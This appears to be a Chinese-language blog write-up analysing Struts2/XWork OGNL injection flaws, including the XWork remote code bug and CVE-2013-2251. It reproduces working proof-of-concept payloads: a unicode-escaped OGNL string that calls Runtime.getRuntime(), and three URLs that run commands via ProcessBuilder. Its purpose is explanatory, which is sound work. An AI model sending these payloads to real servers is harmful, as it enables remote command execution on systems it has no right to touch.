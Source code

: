 以及上下文环境和这个struts2设计，当Struts2接受一个请求时，会迅速创建ActionContext，ValueStack，action 。然后把action存放进ValueStack，所以action的实例变量可以被OGNL访问。

第一个,是2010年7月14号(亮点1:乌云好象就是这天出生的吧?),"Struts2/XWork < 2.2.0远程执行任意代码漏洞",POC:

```
?('\u0023_memberAccess[\'allowStaticMethodAccess\']')(meh)=true&amp;(aaa)(('\u0023context[\'xwork.MethodAccessor.denyMethodExecution\']\u003d\u0023foo')(\u0023foo\u003dnew%20java.lang.Boolean("false")))&amp;(asdf)(('\u0023rt.exit(1)')(\u0023rt\u003d@java.lang.Runtime@getRuntime()))=1

```

也就是这个经典的POC,大家开始第一次认识struts2漏洞(之前也有，只是那时很少有人去关注,或许很容易就能找到一个0day(而且是永远的0day,回溯一下框架历史,我不能再提示了!)。 myibatis框架也有引入OGNL的,亲!

由于ONGL的调用可以通过http传参来执行，为了防止攻击者以此来调用任意方法，Xwork设置了两个参数来进行防护：

```
OgnlContext的属性 'xwork.MethodAccessor.denyMethodExecution'（默认为真）
SecurityMemberAccess私有字段'allowStaticMethodAccess'（默认为假）

```

(这里我现在还没想明白,既然都有这步限制了?为什么后面的那些还会出现,难道官方只会看着公布的PoC打补丁?)

这里大家都知道,是使用#限制OgnlContext 'xwork.MethodAccessor.denyMethodExecution'和'allowStaticMethodAccess'上下文访问以及静态方法调用的值设置.而漏洞作者使用十六进制编码绕过了限制,从而调用@java.lang.Runtime@getRuntime()这个静态方法执行命令.

```
java.lang.Runtime.getRuntime().exit(1) （终止当前正在运行的 Java 虚拟机）

```

在某些struts2漏洞中已经开始改变这个观念,因为我们很难再绕过上面的安全限制了.去调用上下文的属性及静态方法执行恶意java代码.

但是"危险清单"中还有一个可以利用,OGNL表达式中居然可以去new一个java对象(见危险项清单 3.),对于构造PoC足够用了，而不需要上面那些条件.(之前也有类似的相关漏洞,我发现官方并不喜欢做代码审计的)

Apache Struts CVE-2013-2251 Multiple Remote Command Execution Vulnerabilities

这里漏洞原理大致是这样,作者一共提供了三个PoC:

```
http://www.example.com/struts2-blank/example/X.action?action:%25{(new+java.lang.ProcessBuilder(new+java.lang.String[]{'command','goes','here'})).start()} (这个和后面两个是有点区别的，多测试目标时你会发现！)

http://www.example.com/struts2-showcase/employee/save.action?redirect:%25{(new+java.lang.ProcessBuilder(new+java.lang.String[]{'command','goes','here'})).start()}

http://www.example.com/struts2-showcase/employee/save.action?redirectAction:%25{(new+java.lang.ProcessBuilder(new+java.lang.String[]{'command','goes','here'})).start()} 

action:
redirect:
redirectAction:

```

这三关键字是struts2设计出来做短地址导航的,但它奇葩地方在于,如：redirectAction:${恶意代码}后面可以跟OGNL表达式执行,找这种相关的漏洞很好找（如果还有）,查看struts2源代码${},%{}等(struts2只认定这些特征的代码进入OGNL表达式执行流程)，struts2执行ognl表达式的实现功能的地方.

而java.lang.ProcessBuilder是另外一个可以执行命令的java基础类,还有后面大家手中的PoC(new文件操作及输入输出流相关危险类等),此时我们发现只要new对象然后调用其方法就可以了.不再需要上面的一些静态方法等.

这里只能将OGNL和struts2各打50大板了!